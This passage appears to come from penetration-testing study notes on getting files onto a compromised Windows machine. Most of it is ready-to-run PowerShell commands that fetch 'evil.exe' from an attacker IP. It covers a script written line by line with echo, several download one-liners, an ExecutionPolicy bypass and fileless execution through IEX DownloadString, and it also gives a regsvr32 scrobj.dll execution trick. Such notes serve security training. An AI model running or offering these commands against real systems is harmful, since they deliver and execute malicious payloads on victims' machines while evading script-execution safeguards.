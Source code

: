 
OR  


Ex **wget.ps1.txt**:  
```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1  
echo $url = "http://10.11.0.4/evil.exe" >>wget.ps1  
echo $file = "new-exploit.exe" >>wget.ps1  
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Again, we'd copy/paste these commands into the compromised comp's terminal and run the resulting **wget.ps1** script:  
  
For proper running:  
```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```
.
- **-ExecutionPolicy Bypass** - Bypasses the current ExecutionPolicy  
	- Safety feature that controls the conditions under which PS loads configuration files and runs scripts.  
		- Feature used to specifically prevent running of malicious scripts  
- **-NoLogo** - Hides PS's logo banner  
- **-NonInteractive** - Suppress interactive PS prompt  
- **-NoProfile** - Prevent PS loading the default profile.  
- **-File** - Specifiy the script  
  
  
One-Liner version:  
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')

OR

powershell.exe Invoke-Webrequest -URI http://10.11.0.4/evil.exe -OutFile "new-exploit.exe"


OR

powershell.exe Start-BitsTransfer -Source http://10.11.0.4/evil.exe -Destination "new-exploit.exe"
```


Now: To execute malicious binary w/o saving the file to disk, add the **IEX** cmdlet & use **DownloadString**:  
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')


OR


regsvr32.exe /s /n /u /i:http://10.11.0.4/evil.exe scrobj.dll
```

